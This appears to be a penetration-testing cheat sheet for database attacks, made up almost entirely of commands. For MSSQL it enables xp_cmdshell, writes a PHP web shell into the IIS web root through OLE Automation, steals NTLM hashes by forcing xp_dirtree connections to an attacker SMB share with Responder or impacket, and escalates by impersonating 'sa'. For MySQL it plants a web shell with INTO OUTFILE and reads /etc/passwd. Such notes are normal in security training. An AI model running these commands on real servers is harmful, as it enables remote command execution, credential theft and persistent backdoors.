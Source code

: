 
MSSQL command execution 
```cmd-session
1> xp_cmdshell 'whoami'
2> GO
```

MSSQL Enabling xp_cmdshell
```mssql
-- To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

-- To update the currently configured value for advanced options.  
RECONFIGURE
GO  

-- To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

-- To update the currently configured value for this feature.  
RECONFIGURE
GO
```

Enable writing to files with MSSQL (Requires Admin)

```cmd-session
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

Creating Files
```cmd-session
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```

XP_DIRTREE Hash Stealing
```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

XP_SUBDIRS Hash Stealing
```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```

```shell-session
sudo responder -I tun0
```

```shell-session
sudo impacket-smbserver share ./ -smb2support
```

Finding Users to impersonate
```cmd-session
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

Verifying Current User and Role
```cmd-session
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```

Impersonating User
```cmd-session
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```




MySQL

Privilege files 
`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

Showing variables
```shell-session
show variables like "secure_file_priv";
```

Writing to Local File
```shell-session
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

Reading Local File
```shell-session
select LOAD_FILE("/etc/passwd");
```


